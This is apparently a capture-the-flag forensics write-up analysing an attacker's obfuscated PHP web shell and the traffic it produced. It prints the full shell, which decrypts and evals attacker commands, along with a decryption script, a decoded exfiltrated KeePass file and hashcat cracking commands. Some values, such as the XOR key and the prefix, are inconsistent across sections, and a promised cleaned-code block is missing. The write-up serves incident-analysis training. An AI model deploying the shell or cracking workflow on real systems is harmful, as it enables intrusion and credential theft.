






# Obscure - Web Shell Analysis

### Challenge Description

An attacker has successfully exploited a vulnerability in our web server, enabling arbitrary PHP file upload functionality on our Apache server. The threat actor uploaded what appears to be an obfuscated web shell named `support.php`. 

Our security operations center maintains 24/7 network monitoring with comprehensive tcpdump logging. We have extracted and provided log files covering a two-minute window prior to terminating the HTTP service for investigation. Your mission is to analyze the captured traffic and identify the commands executed by the attacker to determine the scope of the compromise.

---

## Obfuscated Shell Analysis

### Initial PHP File Discovery

We recovered the following obfuscated PHP shell from the compromised server:

```php
<?php

$V='$k="80eu)u)32263";$khu)=u)"6f8af44u)abea0";$kf=u)"35103u)u)9f4a7b5";$pu)="0UlYu)yJHG87Eu)JqEz6u)"u)u);function
u)x($';

$P='++)u){$o.=u)$t{u)$i}^$k{$j};}}u)retuu)rn
$o;}u)if(u)@pregu)_u)match("/$kh(.u)+)$kf/",@u)u)file_u)getu)_cu)ontents(';

$d='u)t,$k){u)$c=strlu)en($k);$l=strlenu)($t)u);u)$o=""u);for($i=0u);u)$i<$l;){for(u)$j=0;(u)$u)j<$c&&$i<$l)u)u);$j++,$i';

$B='ob_get_cou)ntu)ents();@obu)_end_cleu)anu)();$r=@basu)e64_eu)ncu)ode(@x(@gzu)compress(u)$o),u)$k));pru)u)int("$p$kh$r$kf");}'
;

$N=str_replace('FD','','FDcreFDateFD_fFDuncFDFDtion');

$c='"php://u)input"),$u)m)==1){@u)obu)_start();u)@evau)l(@gzuu)ncu)ompress(@x(@bau)se64_u)decodu)e($u)m[1]),$k))u));$u)ou)=@';

$u=str_replace('u)','',$V.$d.$P.$c.$B);

$x=$N('',$u);$x();

?>
```

### De-obfuscation Process

The obfuscation technique employed is relatively straightforward - the attacker inserted the string `u)` throughout the code to obscure its functionality. Additionally, the shell dynamically constructs the `create_function` call by replacing `FD` tokens in the string `FDcreFDateFD_fFDuncFDFDtion`.

After removing all `u)` strings and reconstructing the code, we obtain the following cleaned PHP web shell:


### Code Analysis

The web shell operates through the following mechanism:

1. **Variable Initialization:**
   - `$k`: XOR encryption key (`"8032263"`)
   - `$kh`: Header delimiter (`"6f8af44abea0"`)
   - `$kf`: Footer delimiter (`"351039f4a7b5"`)
   - `$p`: Response prefix (`"0UlYyJHG87EJqEz6"`)

2. **XOR Function (`x`):**
   - Implements a repeating-key XOR cipher
   - Takes input data `$t` and key `$k` as parameters
   - Iterates through the input, XORing each byte with the corresponding key byte (cycling through the key)

3. **Request Processing Logic:**
   - Reads raw POST data from `php://input`
   - Uses regex pattern `/$kh(.+)$kf/` to extract the encrypted payload between delimiters
   - Applies the following transformation chain:
     - Base64 decode the extracted payload
     - XOR decrypt using key `$k`
     - Gzip decompress to obtain the original command
     - Execute via `eval()`
   - Captures output using output buffering
   - Encrypts the response through reverse transformation:
     - Gzip compress the output
     - XOR encrypt with key `$k`
     - Base64 encode the result
   - Returns formatted response: `$p$kh$r$kf`

4. **Response Format:**
   Based on the known variables, the response structure is:
   ```
   0UlYyJHG87EJqEz66f8af44abea0{Base64_XOR_Gzipped_Output}351039f4a7b5
   ```

---

## Network Traffic Analysis

### Wireshark Investigation

By analyzing the captured network traffic and following TCP streams of HTTP POST requests, we identified several responses from the web shell that matched the expected format.



#### First Command Output

The first captured response contained:
```
0UlYyJHG87EJqEz66f8af44abea0QKxO/n6DAwXuGEoc5X9/H3HkMXv1Ih75Fx1NdSPRNDPUmHTy351039f4a7b5
```


### Decryption Implementation

To decrypt the attacker's commands, we developed a PHP decryption script that reverses the encryption process:

```php
<?php

$k = "80e32263";
$kh = "6f8af44abea0";
$kf = "351039f4a7b5";
$p = "0UlYJHG87EjqEZ6";

function x($t, $k){
    $c = strlen($k);
    $l = strlen($t);
    $o = "";
    
    for($i = 0; $i < $l; ){
        for($j = 0; ($j < $c && $i < $l); $j++, $i++){
            $o .= $t[$i] ^ $k[$j];
        }
    }
    
    return $o;
}

$userinput = file_get_contents("php://input");
$base64 = base64_decode($userinput);
$xor = x($base64, $k);
$result = gzuncompress($xor);

echo "Result: " . $result;

?>
```

#### First Command Decoded

After processing the encrypted payload `QKxO/n6DAwXuGEoc5X9/H3HkMXv1Ih75Fx1NdSPRNDPUmHTy` through our decryption script, we obtained:

```bash
Result: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


This indicates the attacker executed the `id` command to enumerate the current user context. The web server is running as the `www-data` user, which is the standard Apache user on Debian-based systems.

---

## Subsequent Command Analysis

### Second Command Output

Following the TCP stream analysis, we discovered a second, significantly larger response:

```
0UlYyJHG87EJqEz66f8af44abea0QKzo43k49AMoNoVOfAMh+6h3euEZJvkTlblqP34rlZqPhxDgKLYMz7NpqfQ9IR9FOXy0OfVbUgo/PF3MxrMw/JOdJebwjE2y6VAxUFnyA4H4dHQNgV49YatbqT0it9IXYf5kzoE4+kfGnZ/dTAsyCesTC0i5V+gJQw6bYm/nU3U/lrYGyl+dgvIOURfl0fvGm0hmr0RZKQ==351039f4a7b5
```

Decrypting this payload reveals a directory listing command output:

```bash
total 24K
drwxr-xr-x 2 developer developer 4.0K May 21 20:37 .
drwxr-xr-x 3 root      root      4.0K May 20 21:28 ..
-rw-r--r-- 1 developer developer  220 May 20 21:28 .bash_logout
-rw-r--r-- 1 developer developer 3.5K May 20 21:28 .bashrc
-rw-r--r-- 1 developer developer  675 May 20 21:28 .profile
-rw-r--r-- 1 developer developer 1.6K May 21 20:37 pwdb.kdbx
```

**Analysis:** The attacker executed `ls -lah` in what appears to be the `/home/developer` directory. Notably, a KeePass database file (`pwdb.kdbx`) is present, containing potentially sensitive credentials.

### Third Command Output

```
0UlYyJHG87EJqEz66f8af44abea0QKy2/Pr9e+Z3eUh4//sZexUyZR8mN/g=351039f4a7b5
```

Decrypted result:
```bash
/home/developer
```

**Analysis:** The attacker confirmed the current working directory using the `pwd` command, validating they were indeed in the developer's home directory.

### Fourth Command Output (KeePass Database Exfiltration)

The fourth and most significant response contained a substantially larger encrypted payload. Upon decryption, we obtained the complete contents of the KeePass database file:

```
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
```

**Analysis:** The attacker successfully exfiltrated the entire KeePass database file by likely executing:
```bash
cat pwdb.kdbx | base64
```
or similar command to read and encode the binary file for transmission.

---

## Password Cracking

### KeePass Hash Extraction

The critical finding is the presence of the `pwdb.kdbx` file in the captured traffic. KeePass databases are encrypted and require a master password for access. To extract the flag or sensitive credentials within, we must crack this password.

First, we extract the password hash from the KeePass database using `keepass2john`:

```bash
keepass2john pwdb.kdbx > keepass.hash
```


This generates a hash in the format compatible with password cracking tools.

### Hash Format

The resulting hash follows the structure:
```
$keepass$*2*60000*0*[hash_data]*[verification_data]*[encrypted_data]
```

### Hashcat Brute Force Attack

We employ Hashcat, a high-performance password recovery tool, to perform a dictionary attack against the extracted hash:

```bash
hashcat -m 13400 -a 0 -w 1 keepass.hash /path/to/rockyou.txt
```



**Parameters Explained:**
- `-m 13400`: Specifies hash mode for KeePass 1 (AES/Twofish) and KeePass 2 (AES)
- `-a 0`: Dictionary attack mode
- `-w 1`: Workload profile (1 = low performance impact)
- `keepass.hash`: Input file containing the extracted hash
- `/path/to/rockyou.txt`: Dictionary file (rockyou.txt is a common password list)

### Successful Password Recovery



After running the dictionary attack, Hashcat successfully recovered the master password. With this password, we can now open the KeePass database using KeePass or KeePassXC and retrieve the flag along with any other compromised credentials.


---